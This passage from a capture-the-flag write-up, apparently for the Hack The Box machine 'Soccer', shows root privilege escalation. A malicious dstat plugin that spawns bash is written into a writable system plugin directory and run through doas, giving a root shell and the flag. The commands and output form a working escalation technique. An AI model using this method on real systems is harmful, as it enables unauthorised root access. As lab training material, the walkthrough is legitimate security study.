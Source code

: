 Plugins are Python scripts with the name `dstat_[plugin name].py`.

#### Malicious Plugin

I’ll write a very simple plugin:

    
    
    import os
    
    os.system("/bin/bash")
    

This will drop into Bash for an interactive shell.

Looking at the list of locations, I can obviously write to `~/.dstat`, but
when run with `doas`, it’ll be running as root, and therefore won’t check
`/home/player/.dstat`. Luckily, `/usr/local/share/dstat` is writable.

    
    
    player@soccer:~$ echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_0xdf.py
    

With that in place, I’ll invoke `dstat` with the `0xdf` plugin:

    
    
    player@soccer:~$ doas /usr/bin/dstat --0xdf
    /usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
      import imp
    root@soccer:/home/player#
    

And grab the flag:

    
    
    root@soccer:~# cat root.txt
    774a30b5************************
    

[](/2023/06/10/htb-soccer.html)

